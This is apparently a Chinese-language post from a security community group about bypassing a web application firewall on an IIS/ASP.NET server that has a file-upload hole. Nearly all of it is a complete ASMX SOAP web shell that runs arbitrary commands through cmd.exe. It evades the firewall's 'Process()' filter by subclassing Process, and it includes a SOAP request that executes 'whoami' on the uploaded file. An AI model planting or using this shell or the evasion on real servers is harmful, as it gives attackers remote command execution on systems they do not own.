

### 以下信息来自倾旋知识星球，在此做整理  

> 近日，在遇到一个WAF，目标服务器配置如下：  

> 1.ASP.NET  
> 2.IIS  
> 3.Windows  
> 4.X WAF  
> 5.不允许上传 ASP、ASPX、ASA、CER、....  
> 6.任意文件上传漏洞  
> 于是想到还有ASMX，构建SOAP接口，分享给大家以便留存  
> 另外，WAF还拦截“Process()”，于是在C#代码里，创建了一个子类继承Process父类，然后实例化：    

  

```
public class New_Process :Process
{
    public New_Process(string s)
    {
            
    }

}

Process e = new New_Process("something");
```

```
POST /UploadPath/User/201908221824334713.asmx HTTP/1.1
Host: example.com
Content-Type: text/xml; charset=utf-8
Content-Length: 363
SOAPAction: "http://payloads.online/Test"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Test xmlns="http://payloads.online/">
      <Z1>cmd.exe</Z1>
      <Z2>/c whoami</Z2>
    </Test>
  </soap:Body>
</soap:Envelope>
```
---------------------------------------------------


```
<%@ WebService Language="C#" Class="Service" %>
using System;
using System.Web;
using System.IO;
using System.Net;
using System.Text;
using System.Data;
using System.Data.SqlClient;
using System.Collections.Generic;
using System.Diagnostics;
using System.Web.SessionState;
using System.Web.Services;
using System.Xml;
using System.Web.Services.Protocols;

[WebService(Namespace = "http://payloads.online/")]
[WebServiceBinding(ConformsTo = WsiProfiles.BasicProfile1_1)]

public class New_Process :Process
{
    public New_Process(string s)
    {
            
    }

}


public class Service : System.Web.Services.WebService
{
    public Service()
    {

    }

    [WebMethod]
    public string Test(string Z1,string Z2)
    {
        String R;

        ProcessStartInfo c = new ProcessStartInfo(Z1,Z2);
        Process e = new New_Process("something");
        StreamReader OT, ER;
        c.UseShellExecute = false;
        c.RedirectStandardOutput = true;
        c.RedirectStandardError = true;
        e.StartInfo = c;
        
        e.Start();
        OT = e.StandardOutput;
        ER = e.StandardError;
        e.Close();
        R = OT.ReadToEnd() + ER.ReadToEnd();
        HttpContext.Current.Response.Clear();
        HttpContext.Current.Response.Write("<?xml version=\"1.0\" encoding=\"utf-8\"?>");
        HttpContext.Current.Response.Write("<data>");
        HttpContext.Current.Response.Write("<![CDATA[");
        HttpContext.Current.Response.Write("\x2D\x3E\x7C");
        HttpContext.Current.Response.Write(R);
        HttpContext.Current.Response.Write("\x7C\x3C\x2D");
        HttpContext.Current.Response.Write("]]>");
        HttpContext.Current.Response.Write("</data>");
        HttpContext.Current.Response.End();
        return R;
    }
}
```

